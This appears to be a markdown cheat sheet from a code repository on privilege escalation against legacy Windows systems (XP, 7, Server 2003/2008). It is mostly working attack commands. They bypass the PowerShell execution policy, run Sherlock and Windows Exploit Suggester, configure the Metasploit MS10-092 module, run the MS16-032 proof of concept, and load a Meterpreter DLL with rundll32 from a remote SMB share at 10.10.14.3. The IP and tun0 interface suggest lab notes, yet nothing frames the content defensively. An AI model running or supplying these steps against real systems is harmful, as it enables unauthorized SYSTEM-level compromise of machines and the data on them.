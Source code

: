 # ✅ Legacy Windows OS Privilege Escalation (Cheat Sheet)

---

## 🎯 What to Look for

- [ ] **Identify End-of-Life Systems** (XP, 7, Server 2003, 2008)
- [ ] **Check for Unpatched Exploits (MS10-092, MS16-032, etc.)**
- [ ] **Check Weaknesses Due to Lack of Modern Defenses (No CFG, Credential Guard, etc.)**
- [ ] **Check for Forgotten Systems / Downgrade Weakness**
- [ ] **Look for Custom Apps That Can’t Be Upgraded** (Medical, POS, University Systems)
- [ ] **Enumerate Local PrivEsc Vectors Using Sherlock or WinExploitSuggester**
- [ ] **Verify Patch Level via `wmic qfe`**
- [ ] **Check for Fragility Before Exploiting** (Critical legacy apps)
- [ ] **Use Metasploit for Known Working Exploits**

---
## ✅ Server 2008 Local PrivEsc

```powershell
# Using Sherlock to Find Local PrivEsc
Set-ExecutionPolicy bypass -Scope Process
Import-Module .\Sherlock.ps1
Find-AllVulns

# Check installed hotfixes (patch level)
wmic qfe

# Example of Metasploit Exploit (MS10-092)
use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set LHOST tun0
set LPORT 4443
exploit

# Deliver Meterpreter using rundll32
rundll32.exe \\\\10.10.14.3\\SHARE\\test.dll,0
```
## ✅ Windows 7 Local PrivEsc

```c
# Export system info
systeminfo > win7.txt

# Use Windows Exploit Suggester
python2.7 windows-exploit-suggester.py --update
python2.7 windows-exploit-suggester.py --database DB.xls --systeminfo win7.txt

# Run MS16-032 PoC
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\\Invoke-MS16-032.ps1
Invoke-MS16-032
```

## ✅ Common Exploits for Legacy OS

- [ ] Get shell (Meterpreter or reverse shell)
- [ ] Use Sherlock or WinExploitSuggester
- [ ] Match CVE to PoC or Metasploit
- [ ] Migrate to x64 process if needed
- [ ] Drop & run exploit binary or PowerShell
- [ ] Confirm NT AUTHORITY\SYSTEM access

